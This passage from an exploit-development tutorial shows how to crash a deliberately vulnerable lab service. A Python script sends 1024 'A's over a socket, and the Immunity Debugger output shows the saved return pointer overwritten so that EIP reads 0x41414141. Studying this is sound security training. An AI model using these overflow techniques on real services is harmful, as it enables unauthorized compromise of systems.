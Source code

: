 It's up to you if you keep your breakpoints enabled or disabled for this. You
might want to step through the triggering of the bug line-by-line once you're
inside `doResponse()` using `F8` (this is the Step Over command, it will
prevent you from falling down the rabbit-hole of `CALL`s that the function
performs) to watch the Saved Return Pointer be overwritten and then returned
to. If you would prefer the breakpoints be disabled, open the Breakpoints
window (`Alt-B`) and right-click on each breakpoint to disable it.

Modify your Python script to send 1024 `A`'s to the service, followed by a
newline. Note that I've chosen to remove the printing of what I'm sending for
brevity's sake, as well as the `recv()` call and printing of what I'd have
received. Receiving the response is not actually needed to trigger and exploit
the bug.

```{.python .numberLines}
#!/usr/bin/env python3
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = b""
buf += b"A"*1024
buf += b"\n"

s.send(buf)
```

---

Running this:

```
% ./exploit.py
```

We get a crash in Immunity!

![Crashy crashy. `EIP` = `0x41414141`
("AAAA")](../dostackbufferoverflowgood_images/immdbg_0x41414141.png)

Note the status bar informing us of an Access Violation when executing
`0x41414141`, and the presence of `0x41414141` in the `EIP` register. `0x41` is
the hexadecimal value of the ASCII character `"A"`. We can be pretty certain
this is due to having overwritten the Saved Return Pointer with four of our
1024 `A`'s. If you want to, you can confirm this by keeping the breakpoints
from earlier and stepping over each instruction in the function all the way
through to the return from `doResponse()`.

Be sure to restart (`Ctrl-F2`) the program before trying to connect to it again
then pound `F9` to get it up and running.

!["Restart Program"
button (hotkey `Ctrl-F2`)](../dostackbufferoverflowgood_images/immdbg_restartprocess.png)
